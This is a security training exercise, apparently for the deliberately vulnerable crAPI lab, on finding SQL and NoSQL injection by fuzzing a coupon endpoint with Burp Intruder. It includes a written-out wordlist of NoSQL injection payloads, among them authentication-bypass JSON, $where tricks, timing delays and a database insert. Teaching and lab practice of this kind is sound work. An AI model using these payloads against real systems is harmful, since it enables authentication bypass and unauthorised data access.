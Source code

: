 # crAPI Fuzzing input 
The purpose of these exercise is to introduce the concept of _Fuzz testing_.
Fuzz testing is a technique where input data that is either invalid, unexpected or random
is used as input for an application. The fuzz test is automated by software, which provide
a fast way of inputting a lot of different data.
  
There are 2 overall approaches to fuzz data: Random generated data (dynamic combinations of characters, numbers and so on), and
using premade wordlists. The latter is  by far the fastest approach, and the most suitable for fuzz testing web applications and alike.
  
In previous exercises you have already encountered and used fuzz testing. The dictionary attack you used for basic authentication is
fuzz test approach, using data from a wordlist. The approach for API enumeration also depended on fuzzing the URL path.    
A similar approach can be used for discovering potential vulnerabilities in a web application, by fuzzing the body of a request. 
In these  exercises we will use this approach to discover potentiel SQL Injection vulnerabilities.


## prerequisites
Prior to starting this exercise you should have completed [Exercise 6 - basic authentication attacks](6_Basic_Token_Attacks.md),
to ensure you have experience with fuzzing tools (E.g. Burp suite intruder).

## Discovering possible SQL injection vulnerability with fuzzing
In this exercise you will attempt to discover (not abuse) a SQL (or NoSQL) vulnerability using fuzzing.
crAPI have the option of redeeming discount coupons, let try and see if we can abuse that endpoint.
  
1. In Burp suite, Capture at request for coupon validation
2. Send the request to intruder
3. Set the payload to be the value of _coupon_ .
4. Use the wordlist Generic-SQLI from seclists as payload
5. Observe to responses, what are the baseline lengths and response codes?, which should be ignored?
The general pattern to be observed here, is which content length should be ignored, and which response
code with this content length should be ignored. 
  
If there is no hits, maybe they are not using a SQL database. Let try with some NoSql queries also.
  
It is important to note With the NOsql injection attack, Encapsulating " " should be omitted from the request payload value,
because NoSql Injection is more like an arbitary code injection attack, than a string manipulation attack (Such as SQL Inject).
In short, it is not a string you are injecting.
  
1. Create a small wordlist for noSQL, with the values below:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
{"$ne": null}

```
2. Set the payload to the created wordlist file (clear the payload before adding the new file, or else this will take a while)
3. Execute and observe, which create status codes not similar to the baseline?

You should discover at least 1 potential vulnerability. But we will not attempt to abuse this yet.




